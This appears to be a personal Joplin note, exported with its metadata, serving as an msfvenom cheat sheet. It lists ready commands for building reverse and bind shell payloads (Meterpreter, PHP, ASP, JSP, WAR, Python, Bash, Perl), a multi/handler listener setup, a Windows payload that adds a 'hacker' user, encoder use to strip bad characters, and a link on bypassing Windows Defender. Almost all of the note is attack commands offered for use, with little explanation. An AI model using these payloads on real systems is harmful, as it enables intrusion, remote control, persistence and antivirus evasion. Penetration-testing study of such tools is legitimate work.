 Msfvenom

## Creating a payload

- msfvenom -p \[payload\] LHOST=\[listeninghost\] LPORT=\[listeningport\]

To view list of payloads:

> msfvenom -l payloads

To view the payload options:

> msfvenom -p windows/x64/meterpreter\_reverse\_tcp --list-options

To view formats to output

> msfvenom --list formats
> 
> msfvenom --list encoders

## Creating a payload with encoding

- msfvenom -p \[payload\] -e \[encoder\] -f \[formattype\] -i \[iteration\] &lt;var=value&gt; > outputfile

## Creating a payload using a template

- msfvenom -p \[payload\] &lt;var=value&gt; -x \[template\] -f \[formattype\] > outputfile

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

- msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f exe -o shell.exe -a x86\_64
- msfvenom -p windows/meterpreter\_reverse\_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe -o shell.exe
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell\_reverse\_tcp LHOST=&lt;KALI IP&gt; LPORT=443 EXITFUNC=thread -f c –e x86/shikata\_ga\_nai -b "\\x00\\x0a\\x0d\\x25\\x26\\x2b\\3d"

## Linux Payloads

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell\_bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell\_reverse\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom:

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

- msfvenom -p php/meterpreter\_reverse\_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.php
    cat shell.php | pbcopy && echo '&lt;?php ' | tr -d '\\n' &gt; shell.php && pbpaste >> shell.php</your></your>

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f asp > shell.asp</your></your>

JSP

- msfvenom -p java/jsp\_shell\_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.jsp</your></your>

WAR

- msfvenom -p java/jsp\_shell\_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f war > shell.war</your></your>

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.py</your></your>

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.sh</your></your>

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.pl</your></your>

Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\_ga\_nai -b "\\x0A\\x0D"

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/

id: c5501ccb1e8d457f9a5080d28007af2e
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2019-11-27T02:15:20.390Z
updated_time: 2022-01-26T16:18:51.591Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1611575146763.25
user_created_time: 2019-11-27T02:15:20.390Z
user_updated_time: 2022-01-26T16:18:51.591Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1